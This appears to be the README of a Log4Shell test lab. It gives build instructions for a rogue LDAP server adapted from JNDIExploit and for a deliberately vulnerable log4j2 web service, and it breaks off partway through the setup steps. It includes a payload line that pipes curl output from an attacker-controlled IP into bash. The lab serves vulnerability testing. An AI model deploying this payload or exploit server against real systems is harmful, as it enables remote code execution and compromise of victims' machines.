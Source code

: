 ## RogueLDAP

------------

This is a lightweight ```RogueLDAP``` server which is a modified version of the  [JNDIExploit-1](https://github.com/gysf666/JNDIExploit-1). Before running the Rogue LDAP Server, we should build and run the vulnerable ```loggin-log4j2``` application

### Build and run with Maven

In order to build the ```RogueLDAP``` server we will run the following commands 

```
cd RogueLDAP
mvn clean package
cd target
java -jar RogueLDAP-1.4-SNAPSHOT.jar
```

## logging-log4j2

------------

The ```logging-log4j2``` is a vulnerable dummy web service which only logs a user supplied string value. This application created for testing purposes in order to test the Log4Shell vulnerability using the ```RogueLDAP``` server previously described.  

### Build and run with Docker

From cli run the following command to build and run the ```logging-log4j2``` application 

```
cd logging-log4j2
mvn clean install
docker build -f Dockerfile -t logging-log4j2-vuln .
docker run -p 8080:8080 logging-log4j2-vuln 
```

## Setting up the Environment

The setup should be as follows 

1. run the ```RogueLDAP``` server 
2. run the vulnerable ```logging-log4j2``` application 
3. create a folder called shells at a preffered location

```
mkdir shells 
cd shells 
```

There create an ```index.html``` file 

```
touch index.html 
```

Inside the ```index.html``` file put the following payload and change the IP address to the one that suits to the current environment

```
curl 192.168.1.6|bash 
``` 

4. 